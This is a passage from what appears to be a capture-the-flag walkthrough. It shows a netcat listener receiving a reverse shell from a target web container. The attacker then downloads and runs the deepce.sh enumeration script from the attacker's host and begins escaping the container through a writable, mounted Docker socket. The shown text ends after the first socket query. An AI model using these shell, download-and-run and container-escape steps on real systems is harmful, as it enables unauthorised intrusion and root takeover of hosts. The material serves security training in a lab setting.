 ```bash
➜  extension nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.171] 53454
bash: cannot set terminal process group (46): Inappropriate ioctl for device
bash: no job control in this shell
application@4dae106254bf:/var/www/html/public$ id
uid=1000(application) gid=1000(application) groups=1000(application),999(app)
```


### Step 3
Upload `deepce.sh` and enumerate the container. 
```bash
application@4dae106254bf:/dev/shm$ wget http://10.10.14.10/deepce.sh
application@4dae106254bf:/dev/shm$ chmod +x deepce.sh
application@4dae106254bf:/dev/shm$ bash deepce.sh
[... snip ...]
[+] Dangerous Capabilities .. Yes
cap_dac_override

[... snip ...]
====================================( Enumerating Mounts )====================================
[+] Docker sock mounted ....... Yes
The docker sock is writable, we should be able to enumerate docker, create containers 
and obtain root privs on the host machine
See https://stealthcopter.github.io/deepce/guides/docker-sock.md
```

Lets try to escape through the mounted docker socket.
```bash
application@4dae106254bf:/dev/shm$ find / -name docker.sock 2>/dev/null    
/app/docker.sock
```

Google for _"exploit docker sock"_ and the [first hit](https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25) is a nice bash script to escape. Follow the script step-by-step.

(1) Find available images:
```bash
application@4dae106254bf:/dev/shm$ curl -s --unix-socket /app/docker.sock http://localhost/images/json
```